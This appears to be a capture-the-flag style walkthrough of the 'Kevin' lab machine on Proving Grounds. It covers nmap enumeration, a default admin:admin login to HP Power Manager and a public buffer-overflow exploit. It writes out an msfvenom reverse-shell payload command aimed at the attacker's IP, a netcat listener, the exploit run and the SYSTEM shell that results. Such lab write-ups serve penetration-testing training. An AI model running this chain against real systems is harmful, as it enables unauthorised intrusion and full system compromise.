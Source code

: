 ```yaml
---
layout: post
title: PG | Kevin
subtitle: Effective enumeration will save you time.
thumbnail-img: /assets/img/OffSec.png
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-28 07:09 UTC
Nmap scan report for 192.168.191.45
Host is up (0.015s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        GoAhead WebServer
|_http-server-header: GoAhead-Webs
| http-title: HP Power Manager
|_Requested resource was http://192.168.191.45/index.asp
135/tcp   open  msrpc       Microsoft Windows RPC
139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp   open  �\�\�U      Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2023-10-28T07:11:02+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2023-10-28T07:10:47+00:00
| ssl-cert: Subject: commonName=kevin
| Not valid before: 2023-08-01T03:26:36
|_Not valid after:  2024-01-31T03:26:36
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc       Microsoft Windows RPC
49153/tcp open  msrpc       Microsoft Windows RPC
49154/tcp open  msrpc       Microsoft Windows RPC
49155/tcp open  msrpc       Microsoft Windows RPC
49158/tcp open  msrpc       Microsoft Windows RPC
49160/tcp open  msrpc       Microsoft Windows RPC
Service Info: Host: KEVIN; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h23m59s, deviation: 3h07m49s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-10-28T00:10:47-07:00
|_nbstat: NetBIOS name: KEVIN, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ba:5f:74 (VMware)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-28T07:10:47
|_  start_date: 2023-10-28T07:08:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.39 seconds
~~~

# Service Enumeration

## HTTP (TCP/80)

The target is hosting HP Power Manager website on port 80.

![Kevin](/assets/img/KevinPG(1).png)

I started by searching for the default credentials and found admin:admin which worked!

After enumerating through the website I found nothing of significance, so started searching for know exploits

I found [this](https://www.exploit-db.com/exploits/10099) exploit "Hewlett-Packard (HP) Power Manager Administration Power Manager Administration - Universal Buffer Overflow" (10099.py) which uses a python script to execute a Buffer Overflow attack

![Kevin](/assets/img/KevinPG(2).png)

Inspecting the python script we can see it executes shell code in the SHELL variable, this is where we will have to generate our shell code for our reverse shell and replace for our foothold

![Kevin](/assets/img/KevinPG(3).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Kevin]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.167 LPORT=80 -b '\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a' -e x86/alpha_mixed -f c

-b: specifies the bad characters, which as seen in the image of the payload are displayed just before the shell
-e x86/alpha_mixed: generates alphanumeric shellcode for a 32bit architecture
~~~

Replace Shell code in the n00b n00b shell with our MSFVenom generated shell code

![Kevin](/assets/img/KevinPG(4).png)

Start netcat listener on port 80
~~~shell
┌──(kali㉿kali)-[~/Desktop/Kevin]
└─$ nc -nvlp 80  
listening on [any] 80 ...
~~~
Run the exploit
~~~shell
┌──(kali㉿kali)-[~/Desktop/Kevin]
└─$ python2.7 10099.py 192.168.191.45                                             
HP Power Manager Administration Universal Buffer Overflow Exploit
ryujin __A-T__ offensive-security.com
[+] Sending evil buffer...
HTTP/1.0 200 OK

[+] Done!
~~~
And we recieve a root (system) shell on our netcat listener!
~~~shell
┌──(kali㉿kali)-[~/Desktop/Kevin]
└─$ nc -nvlp 80  
listening on [any] 80 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.191.45] 49168
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
~~~